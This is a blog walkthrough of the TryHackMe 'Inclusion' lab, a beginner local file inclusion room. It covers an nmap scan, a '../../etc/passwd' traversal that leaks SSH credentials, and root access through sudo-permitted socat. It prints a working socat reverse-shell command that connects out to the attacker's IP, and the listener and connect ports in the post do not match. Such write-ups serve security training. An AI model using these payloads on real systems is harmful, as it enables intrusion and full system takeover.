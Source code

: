 ```yaml
---
title: TryHackMe Inclusion
date: 2021-07-08T14:19:01+05:30
lastmod: 2021-07-08T14:19:01+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
#cover: /img/blog.png
cover: /img/thm.gif # for tryhackMe

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm
  - inclusion

draft: false
description: TryHackMe Room inclusion, A beginner level LFI challenge. solved by Animesh Roy. this is a walkthough. read more...

---
```

## inclusion

## task 01: Deploy

This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability.

---

## Task 02: Root It

## Recon

### Nmap

`nmap` found two open TCP ports, SSH (22) and HTTP (80):

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-08 14:35 IST
Nmap scan report for 10.10.206.247
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.52 seconds
```

### website

![website](https://i.imgur.com/gxhGw96.png)

this is LFI lab, let's try opening up the posts and see what we can do.

![lfi?](https://i.imgur.com/cFEhBOr.png)

we got a input paramere, where you can modify values. let's try reading out `/etc/psswd` file. this is public readble file in linux.

```bash
http://<machine-ip>/article?name=../../../../../../etc/passwd
```

Turns out we can read the local `/etc/passwd` file.

![lfi-2](https://i.imgur.com/DwC4jF7.png)

and we got a credentials commented out in file.

![creds](https://i.imgur.com/wHzTmpf.png)

trying `SSH` to access with found creds.

```bash
┌──(anir0y㉿kali)-[~/share/thm/room/inclusion]
└─$ ssh falconfeast@10.10.206.247
falconfeast@10.10.206.247's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)
```

credentials worked! user key in `~/` dir named `user.txt`

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## Root

> we have a working `ssh` access to the server, let's try to find out to be a root.

I'm going to start with `sudo -l` command to see if `falconfeast` have any sudo run privileges.

```bash
# user can run socat with no password required. 
falconfeast@inclusion:~$ sudo -l 
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

Nice easy privesc here — we’ve got sudo access for socat, which is essentially a more powerful (if more complex) version of Netcat. In other words, we can use socat to send ourselves a root shell. First, on your own attacking computer, run this command:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:9001
```

This will setup a socat listener on your own machine.

On the remote machine, use this command:

```bash
sudo socat tcp-connect:<your-ip-address>:1234 exec:bash,pty,stderr,setsid,sigint,sane
```

we got the flag!!!

![root](https://i.imgur.com/4K2vY1I.png)

---

## you can learn more about `socat` in this amazing room: [SHELL](https://tryhackme.com/room/introtoshells)

---

## Bonus

you could've been got both flag with `web LFI` itself. I don't know that is intented way or not. but hey! you got that option too.

* User via web:
     ![user-via-web](https://i.imgur.com/a2b5o0W.png)
* root via web:
     ![root-via-web](https://i.imgur.com/rQ4zggj.png)


---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
